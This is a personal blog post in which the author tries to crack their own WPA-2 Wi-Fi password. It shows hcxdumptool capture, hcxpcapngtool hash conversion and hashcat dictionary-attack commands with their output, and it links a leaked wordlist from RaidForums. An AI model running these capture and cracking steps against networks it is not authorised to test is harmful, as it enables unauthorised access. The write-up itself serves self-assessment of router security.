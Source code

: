 ```yaml
---
title: "Wifi Hacking"
date: 2022-07-12T16:30:43+01:00
tags:
    - Hacking
category: 
    - blog
keywords:
    - Hacking
    - Wifi
    - Security
---
```



## Prelude

Everywhere online, i have heard that wifi was insecure.

Posts talking about WEP and WPA being insecure. WPA-2 being better but still flawed.
I have decided to try and hack my own wifi router to see whether it really is insecure

### Setup

I am using the tp-link archer VR600 v2 as my router with WPA-2 wifi encryption.
I'll be executing my attack from my Arch Linux Laptop

## Hacking my own wifi

After looking around online, I've discovered the hashcat [cracking wpawpa2 wiki article](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2)
and I'll be following along as a guide.

As I went along, I worked on a script for hacking my wifi to allow for easy re-execution

### Disabling wifi and and enabling the wifi snooper

```bash
#!/usr/bin/env bash

# Disable wifi
sudo systemctl stop wpa_supplicant
# start monitor tool
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# Start wifi
sudo systemctl start wpa_supplicant
```

Enabling wifi and scanning for packets was quite simple.
All you had to do, is install `hcxdumptool` and run the aforementioned commands.
It took roughly 10-15 mins till a `PMKID`or `EAPOL MESSAGE` packet was detected on the network

once the a packet has been found, you can extract the hash of your wpa2 wifi password.

```bash
# Convert traffic
hcxpcapngtool -o hash.hc22000 dumpfile.pcapng
```

The hash is a `WPA-PBKDF2-PMKID+EAPOL` according to the [hashcat wiki](https://hashcat.net/wiki/doku.php?id=example_hashes).

This hash would be vunrable to a veriety of different attack methods:

- Dictionary attack
- Brute-Force attack
- Rule-based attack

I will be attempting a dictionary attack as it would execute in the fastest time

### hashcracking attempt 1

After installing `hashcat` and `opencl` in accordance with [the arch wiki](https://wiki.archlinux.org/title/GPGPU)
I started my first attempt with cracking the hash.

I downloaded a simple [wordlist](https://wpa-sec.stanev.org/dict/cracked.txt.gz) and attempted my first crack
Unfortunatly, I immediately came across an error.

```bash
$ hashcat -m 22000 hash.hc22000 cracked.txt.gz

resulted in this error;
clBuildProgram(): 
    CL_OUT_OF_HOST_MEMORY * Device #1: Kernel /usr/share/hashcat/OpenCL/shared.cl build failed.
```

After an hour of frantic googling online, i finally decided to restart my system and it immediately worked. :grimacing:

```bash
$ hashcat
hashcat (v6.2.5) starting

...

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

...

Dictionary cache built:
* Filename..: ./cracked.txt.gz
* Passwords.: 368163
* Bytes.....: 3992189
* Keyspace..: 368163
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.hc22000
Time.Started.....: Tue Jul 12 18:20:18 2022 (9 secs)
Time.Estimated...: Tue Jul 12 18:20:27 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (./cracked.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    42026 H/s (0.48ms) @ Accel:16 Loops:32 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests
Progress.........: 368163/368163 (100.00%)
Rejected.........: 0/368163 (0.00%)
Restore.Point....: 368163/368163 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: kunanesenanuk -> leprechaun6
Hardware.Mon.#1..: N/A

...
```

Sadly this basic dictionary attack failed. This tells me that as long as you have a complicated enough password

### hashcracking attempt 2

After the unsuccessful dictionary attack, i decided to get a bigger and better wordlist.
I went with the [rockyou2021.txt from kys234 on RaidForums](magnet:?xt=urn:btih:JEQMEEFTBXT35RJ3GUTGXU7HP3HBU5P6&dn=rockyou2021.txt%20dictionary%20from%20kys234%20on%20RaidForums&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A6969%2Fannounce).
This is a massive overkill wordlist and after waiting hours for the download+decompressing.

Once finished, the wordlist was around 92GB and roughly 8 billion words long.

Rather than wait for a hashcat to go though the entire wordlist, i grep-ed the wordlist for my wifi password.
After 3 mins, the command resulted in nothing. This seams to show that my wifi password is secure.

## Conclusion

It seams to me that WPA-2 isnt actually as insecure as it would people online would lead you to believe.
As long as you have a secure enough password, it shouldnt be a simple processs hacking into someones WPA-2 wifi network.

Of course, ive only explored one wifi hacking method so far and im aware there are plenty of other methods
